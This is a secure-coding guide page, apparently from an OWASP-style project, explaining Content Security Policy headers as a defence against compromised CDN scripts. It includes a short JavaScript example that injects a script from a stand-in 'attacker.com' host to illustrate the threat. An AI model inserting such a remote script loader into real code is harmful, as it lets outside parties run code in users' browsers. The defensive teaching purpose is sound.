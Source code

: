 Content Security Policy
=======================

[Content Security Policy][1] (CSP) is W3C Candidate Recommendation introduced to
prevent [Cross-Site Scripting attacks][2], click jacking and other code
injection attacks.

If you already read [Dependencies][3] and [Interpreted Code Integrity][4]
general coding practices, you will see that they share some security concerns.

Starting with [Dependencies][3]. As our applications have dependencies,
dependencies also have their own dependencies. How do we know them all?

Our applications are build server-side and are then sent to the client where
they run and live throughout most of the execution time. How do they know what
is running there?

Let's assume that you do not have SRI in place (if so, please read the
[Interpreted Code Integrity][4] section) and you're loading JavaScript resources
from a CDN. How do you know that these JavaScript resources only download known
dependencies and nothing else? What if the CDN gets compromised and one of the
JavaScript resources that your application downloads includes a malicious
payload? Think of something such as the example below in the middle of a huge
library:

```javascript
var s = document.createElement(s);
s.src='//attacker.com/malicious.js';
document.body.appendChild(s);
```

`Content-Security-Policy` is an HTTP response header which allows the server to
tell the web browser what dynamic resources are allowed to load.
By "dynamic resources" you should consider JavaScript scripts, stylesheets,
images, XMLHttpRequests (AJAX), WebSockets or EventSource, fonts, objects
(`<object>`, `<embed>` or `<applet>`), media (`<audio>` and `<video>`), frames
and forms.

You're recommended to read the official [Content Security Policy Reference][1]
so that you can take full advantage of all its features.

For completeness, the following examples lock your application resources to the
same origin policy - resources are only allowed to load when they come from your
application domain (`self`).

```
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';
```

As stated before, CSP also fits OWASP recommendations for [Interpreted Code
Integrity][4] overlapping SRI capabilities. For example, a hash can be provided
to `script-src` allowing it to run if and only if it matches, give hash

```
Content-Security-Policy: script-src 'sha256-qznLcsROx4GACP2dm0UCKCzCG+HiZ1guq6ZZDob/Tng='
```

Although CSP is not bulletproof and it may look hard to manage, you should
definitely apply it to your web applications.

[1]: https://content-security-policy.com/
[2]: ../output-encoding/README.md
[3]: ./dependencies.md
[4]: ./interpreted-code-integrity.md
